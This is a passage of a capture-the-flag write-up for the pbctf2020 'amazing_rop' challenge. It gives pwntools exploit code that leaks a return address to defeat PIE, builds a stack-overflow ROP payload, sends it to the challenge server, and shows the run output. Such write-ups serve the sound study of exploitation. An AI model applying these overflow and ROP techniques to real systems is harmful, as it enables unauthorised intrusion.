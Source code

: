 ```python
'''
binary.symbols['pop_eax_int3'] = 0x13ad
```

The lines `binary.symbols['pop_esi_edi_edp'] = 0x00001396` and `binary.symbols['pop_eax_int3'] = 0x13ad` add symbols to our symbol table so we can reference them by name.  This also makes it easier to do the address math, since after we leak the base process address and set `binary.address`, then there's nothing else to do but use by symbol.

```python
p.sendlineafter('Do you want color in the visualization? (Y/n) ', 'n')

for i in range(10):
    _ = p.recvline().strip().decode().split(' ')

return_addr = int(''.join(_[2:6][::-1]),16)
log.info('return_addr: ' + hex(return_addr))
binary.address = return_addr - ((return_addr & 0xFFF) - (binary.sym.main & 0xFFF)) - binary.sym.main
log.info('binary.address: ' + hex(binary.address))
```

Skip to the 10th line and get the return address from the stack dump and use that to compute the base process address.

```python
payload  = b''
payload += (0x40 - 0x10) * b'A'
payload += b'flag'
payload += (0x40 - len(payload)) * b'A'
payload += p32(binary.sym.pop_esi_edi_edp)
payload += p32(0x1337)
payload += p32(0x31337)
payload += p32(0xdeadba5e)
payload += p32(binary.sym.pop_eax_int3)
payload += p32(1)

p.sendlineafter('Input some text: ', payload)
p.stream()
```

The first half of the payload sends `0x40 - 0x10` (48) bytes then `flag` (see analysis section), then pads out to `0x40` bytes (see stack diagram in analysis section, `buff` is `0x40` bytes from return address on stack).

Next, just follow the _instructions:_ `mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3`

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/pbctf2020/amazing_rop/bof'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to maze.chal.perfect.blue on port 1: Done
[*] return_addr: 0x5664b599
[*] binary.address: 0x5664a000

0xfff687fc | 41 41 41 41 41 41 41 41 |
0xfff68804 | 41 41 41 41 41 41 41 41 |
0xfff6880c | 41 41 41 41 41 41 41 41 |
0xfff68814 | 41 41 41 41 41 41 41 41 |
0xfff6881c | 41 41 41 41 41 41 41 41 |
0xfff68824 | 41 41 41 41 41 41 41 41 |
```